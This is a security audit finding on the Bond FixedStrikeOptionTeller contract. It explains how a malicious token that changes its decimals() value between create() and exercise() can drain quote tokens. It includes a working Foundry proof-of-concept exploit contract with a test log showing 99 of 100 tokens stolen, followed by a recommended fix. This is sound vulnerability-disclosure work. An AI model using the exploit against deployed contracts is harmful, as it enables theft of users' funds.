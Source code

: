bin2chen

high

# steal funds with variable decimals of payoutToken

## Summary
Both `create()` and `exercise()` are divided by `payoutToken.decimals()` to calculate `quoteAmount`.
Since `payoutToken` can be specified arbitrarily, we can manipulate the conversion formula using a malicious token that can modify `decimals()`
thus stealing the `quoteToken` that exists in the contract
## Vulnerability Detail

in `create()` ,  formulas used : `uint256 quoteAmount = amount_.mulDiv(strikePrice, 10 ** payoutToken.decimals());`
```solidity
    function create(
        FixedStrikeOptionToken optionToken_,
        uint256 amount_
    ) external override nonReentrant {
...
        if (call) {
            // Transfer payout tokens from user
            // Check that amount received is not less than amount expected
            // Handles edge cases like fee-on-transfer tokens (which are not supported)
            uint256 startBalance = payoutToken.balanceOf(address(this));
            payoutToken.safeTransferFrom(msg.sender, address(this), amount_);
            uint256 endBalance = payoutToken.balanceOf(address(this));
            if (endBalance < startBalance + amount_)
                revert Teller_UnsupportedToken(address(payoutToken));
        } else {
            // Calculate amount of quote tokens required to mint
@>          uint256 quoteAmount = amount_.mulDiv(strikePrice, 10 ** payoutToken.decimals());

            // Transfer quote tokens from user
            // Check that amount received is not less than amount expected
            // Handles edge cases like fee-on-transfer tokens (which are not supported)
            uint256 startBalance = quoteToken.balanceOf(address(this));
            quoteToken.safeTransferFrom(msg.sender, address(this), quoteAmount);
            uint256 endBalance = quoteToken.balanceOf(address(this));
            if (endBalance < startBalance + quoteAmount)
                revert Teller_UnsupportedToken(address(quoteToken));
        }
```

in `exercise()` , again using the formula:`uint256 quoteAmount = amount_.mulDiv(strikePrice, 10 ** payoutToken.decimals());`
```solidity
    function exercise(
        FixedStrikeOptionToken optionToken_,
        uint256 amount_
    ) external override nonReentrant {
...
@>      uint256 quoteAmount = amount_.mulDiv(strikePrice, 10 ** payoutToken.decimals());

        // If not receiver, require payment
        if (msg.sender != receiver) {
....
        }

        // Burn option tokens
        optionToken.burn(msg.sender, amount_);

        if (call) {
            // Transfer payout tokens to user
            payoutToken.safeTransfer(msg.sender, amount_);
        } else {
            // Transfer quote tokens to user
            quoteToken.safeTransfer(msg.sender, quoteAmount);
        }
    }
```

This allows us to `deploy()` a optionToken with  malicious payToken.
For example
On `create()` `payToken.decimals()` returns 18
On `exercise()`, `payToken.decimals()` returns 16
Thus, we can deposit `1` and take out `100`.

Here is the test code.

add to `FixedStrikeOption.t.sol`
```solidity
contract StealMockERC20 {
    uint8 public decimals = 18;
    function changedecimals(uint8 newDec) external {
        decimals = newDec;
    }
    function symbol() external view returns (string memory) {
        return "StealMockERC20";
    }
}


    function test_steal() public {
        // 0. new fake payoutToken
        StealMockERC20 stealPayToken = new StealMockERC20();
        uint256 strikePrice = 1 * 10 ** def.decimals();
        FixedStrikeOptionToken optionToken = teller.deploy(
            ERC20(address(stealPayToken)),
            def,
            uint48(0),
            uint48(block.timestamp + 8 days),
            alice,
            false,
            strikePrice
        );
        // 1. Suppose there are 100 QuoteToken in teller
        def.mint(address(teller),100e18);
        uint256 initAmount = def.balanceOf(address(teller))/1e18; 
        console2.log("teller init balance:",initAmount);
        uint256 amount = 1 * 10 ** stealPayToken.decimals();
        // 2.create (1) with 18 decimals 
        vm.prank(alice);
        teller.create(optionToken, amount);
        console2.log("after create (1) with 18 decimals,balance:",def.balanceOf(address(teller))/1e18);
        // 3.exercise (1) with 16 decimals 
        stealPayToken.changedecimals(16);
        vm.prank(alice);
        teller.exercise(optionToken, amount);
        console2.log("after exercise (1) with 16 decimals,balance:",def.balanceOf(address(teller))/1e18);
        // 4.show steal 99
        console2.log("teller lost:",initAmount - def.balanceOf(address(teller))/1e18);
    }    

```

```console
$ forge test --match test_steal -vvv


Running 1 test for test/FixedStrikeOption.t.sol:FixedStrikeOptionTest
[PASS] test_steal() (gas: 444463)
Logs:
  teller init balance: 100
  after create (1) with 18 decimals,balance: 101
  after exercise (1) with 16 decimals,balance: 1
  teller lost: 99

Test result: ok. 1 passed; 0 failed; finished in 20.64ms
```

## Impact
steal teller contact's funds

## Code Snippet
https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L283

https://github.com/sherlock-audit/2023-06-bond/blob/main/options/src/fixed-strike/FixedStrikeOptionTeller.sol#L339


## Tool used

Manual Review

## Recommendation

use `optionToken.decimals()` replace  `payoutToken.decimals()`

```solidity
    function create(
        FixedStrikeOptionToken optionToken_,
        uint256 amount_
    ) external override nonReentrant {
...
-           uint256 quoteAmount = amount_.mulDiv(strikePrice, 10 ** payoutToken.decimals());
+           uint256 quoteAmount = amount_.mulDiv(strikePrice, 10 ** optionToken.decimals());

            // Transfer quote tokens from user
            // Check that amount received is not less than amount expected
            // Handles edge cases like fee-on-transfer tokens (which are not supported)
            uint256 startBalance = quoteToken.balanceOf(address(this));
            quoteToken.safeTransferFrom(msg.sender, address(this), quoteAmount);
            uint256 endBalance = quoteToken.balanceOf(address(this));
            if (endBalance < startBalance + quoteAmount)
                revert Teller_UnsupportedToken(address(quoteToken));
        }

        // Mint new option tokens to sender
        optionToken.mint(msg.sender, amount_);
    }
```

```solidity
    function exercise(
        FixedStrikeOptionToken optionToken_,
        uint256 amount_
    ) external override nonReentrant {
.....

        if (uint48(block.timestamp) < eligible) revert Teller_NotEligible(eligible);

        // Validate that option token is not expired
        if (uint48(block.timestamp) >= expiry) revert Teller_OptionExpired(expiry);

        // Calculate amount of quote tokens equivalent to amount at strike price
-       uint256 quoteAmount = amount_.mulDiv(strikePrice, 10 ** payoutToken.decimals());
+       uint256 quoteAmount = amount_.mulDiv(strikePrice, 10 ** optionToken.decimals());


```